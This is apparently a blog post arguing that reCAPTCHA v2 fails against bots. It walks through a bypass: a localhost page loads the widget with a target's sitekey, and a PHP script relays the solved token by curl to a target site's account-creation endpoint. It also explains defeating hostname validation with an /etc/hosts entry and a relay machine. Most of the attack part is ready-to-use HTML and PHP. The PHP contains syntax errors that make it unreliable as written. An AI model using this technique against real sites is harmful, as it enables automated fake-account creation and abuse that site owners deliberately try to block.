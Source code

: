 ```yaml
---
layout: post
title: Bypassing RecaptchaV2
---
```


A lot of times I hear people say that they use recaptchaV2 as a way to mitigate bot traffic. We have tried the same and the results have not been pretty, just as I anticipated. RecaptchaV2 is meant to stop scripts from performing actions against an application but there is no way that a macro-recording application that is interacting with a real browser can be stopped. 

What does this mean? Well, if you have an application that replays clicking on recorded coordinates from a real browser, there is no way recaptchaV2 can solve this. In fact, let me just show you.

h2. Bypassing recaptchaV2
A quick bypass/automating recaptchaV2 solution is as easy as follows:

* Apache web server
* PHP script receiving the g-captcha-response
* Public sitekey for target URL

You can set up an Apache web server running on http://localhost that loads a form that loads the recaptchaV2 widget and submits the response to a PHP script. The PHP script can receive the g-recaptcha-response parameter and send that via curl to the target URL with the rest of parameters that are needed to complete the action. 

bq. Google by default allows you to load recaptchaV2 widgets from localhost as a 'feature' for testing. There is no way to disable this.

h3. Example
Let's say that you want to bypass the recaptchaV2 for http://www.targetsite.com/create_account.action endpoint. This action takes a few parameters such as:
* username
* password
* gender
* city
* zip code
* address

What you can have is an Apache server serving an html file which loads the recaptchaV2 widget with:

```html
<html>
  <head>
    <title>reCAPTCHA demo: Simple page</title>
     <script src="https://www.google.com/recaptcha/api.js" async defer></script>
  </head>
  <body>
    <form action="'''script.php'''" method="POST">
      <div class="g-recaptcha" data-sitekey="'''TARGET_SITE_KEY'''"></div>
      <br/>
      <input type="submit" value="Submit">
    </form>
  </body>
</html>
```

Then you can have a script.php file set to receive the response as:
{{{$response = $_POST['g-recaptcha-response']}}}

What it can also do is pass the rest of the parameters to the target URL as:

```php
	$url = "https://www.targetsite.com/create_account.action";
	$response = $_POST['g-recaptcha-response'];
	$fields = array(
		'g-recaptcha-response' : $response,
		'username' : 'blah',
		'password' : 'password123', #of course!
		'gender' : 'm',
		'city' : 'Chicago',
		'state' : 'IL',
		'address' : '123 Elm St'
	);
	$fields_string = "";
	foreach($fields as $key=>$value) { $fields_string .= $key.'='.$value.'&'; }
	rtrim($fields_string, '&');

	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $url);
	curl_setopt($ch, CURLOPT_POST, count($fields));
	curl_setopt($ch, CURLOPT_POSTFIELDS, $fields_string);
	$result = curl_exec($ch);
	curl_close($ch);
```

Bingo! That will submit a valid response to the target site with the rest of the parameters. When the target site sends the response to Google for verification, it'll receive a success of true and a hostname of 'localhost' because that's where the challenge was generated. If the site decides to perform hostname validation, then this attack will not work.

But wait... There's more!

If the site decides to perform hostname validation, this is what you can do:
* Create an /etc/hosts entry for the hostname of the target URL (www.targetsite.com)
* Have the PHP file send the response to another node (another VM) that then sends the parameters via curl.
* Hostname validation bypassed.

h2. References
[Google RecaptchaV2 Documentation](https://developers.google.com/recaptcha/intro)
	

